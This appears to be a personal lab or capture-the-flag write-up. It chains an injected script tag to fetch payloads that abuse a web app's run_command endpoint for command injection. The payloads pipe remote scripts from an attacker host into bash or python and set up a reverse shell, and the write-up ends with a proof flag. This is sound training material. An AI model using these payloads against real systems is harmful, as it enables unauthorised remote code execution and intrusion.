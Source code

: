 command from copying and pasting from `network tools`

hitting run to generate `fetch`
![[Pasted image 20250512003138.png]]
populates the `run_command`
![[Pasted image 20250512003154.png]]
right click `copy` as fetch
```bash
fetch("http://192.168.187.88:3000/run_command", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "proxy-connection": "keep-alive",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "http://192.168.187.88:3000/a86e560601e532934118a125dca8a9a0fb26bc45adb3bb38a3772daa8ef248a3",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "cmd=ifconfig",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```
now we modify the `fetch` command to make it simpler, and see if we can curl ourselves to get `Command Injection` from the `localhost`
- we delete almsot everything to make it very simple and save it as `payload2.js`
```bash
fetch("http://localhost:3000/run_command", {
  "headers": {
    "content-type": "application/x-www-form-urlencoded",
  },
  "body": "cmd=curl 192.168.45.181:8000/command_test",
  "method": "POST",
});
```
and use this to trigger it the same way as before `<script src="http://192.168.45.181:8000/payload2.js"></script>`
![[Pasted image 20250512004036.png]]
and was able to get `command` execution by testing curl
![[Pasted image 20250512004015.png]]
now we just need to pull over a reverse shell and execute it
creating `x.py`
```bash
┌──(root💀gobots)-[12May2025 04:42:29]-[/home/kali/SUT/Construction]
└─# cat x.py       
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.181",1234))
```
creating `cmdpayload.js` to execute `x.py` - didnt use this one but was viable
```bash
fetch("http://localhost:3000/run_command", {
  "headers": {
    "content-type": "application/x-www-form-urlencoded",
  },
  "body": "cmd=curl 192.168.45.181:8000/x.py | python3",
  "method": "POST",
});
```
ended up using this to get a `bash` shell - `cmdpayload.js`
```bash
fetch("http://localhost:3000/run_command", {
  "headers": {
    "content-type": "application/x-www-form-urlencoded",
  },
  "body": "cmd=curl 192.168.45.181:8000/x.sh | bash",
  "method": "POST",
});
```
![[Pasted image 20250512005630.png]]
executing with `<script src="http://192.168.45.181:8000/cmdpayload.js"></script>`
![[Pasted image 20250512005652.png]]
caught reverse shell and proof `c976efe9337e0497309617e0ec8f94b2`
![[Pasted image 20250512005714.png]]